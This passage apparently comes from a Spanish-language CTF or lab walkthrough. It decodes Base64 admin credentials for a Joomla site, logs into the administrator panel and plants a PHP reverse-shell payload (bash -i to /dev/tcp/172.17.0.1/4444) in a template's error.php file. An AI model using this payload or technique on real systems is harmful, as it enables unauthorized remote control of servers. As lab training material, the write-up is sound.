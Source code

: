Encontramos credenciales para `admin` : `c2FubHVpczEyMzQ1`.

La contraseña está codificada en `Base64`, por lo que procedemos a decodificarla.

```bash
echo "c2FubHVpczEyMzQ1" | Base64 -d
```

Info:
```
sanluis12345
```

Obtenemos `sanluis12345`. Intuimos que `admin` : `sanluis12345` son las credenciales de `administrador` del `CMS`.

Navegamos a la ruta `/administrator` para autenticarnos con las credenciales encontradas.

![alt text](../../images/joomla.png)

Logramos acceder con éxito al panel de administración.

Nuestro objetivo ahora es obtener una `reverse shell`. En `Joomla!`, un vector común es modificar los archivos `PHP` de las templates. Para eso navegamos a la sección de plantillas dentro de `/templates/cassiopeia/`.

Concretamente, decidimos modificar el archivo `error.php`. Inyectamos nuestro `payload` de `PHP` al inicio del archivo. Este se activará cuando accedamos al `error.php` directamente desde el navegador.

Payload:
```
<?php
  system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'");
?>
```

Info: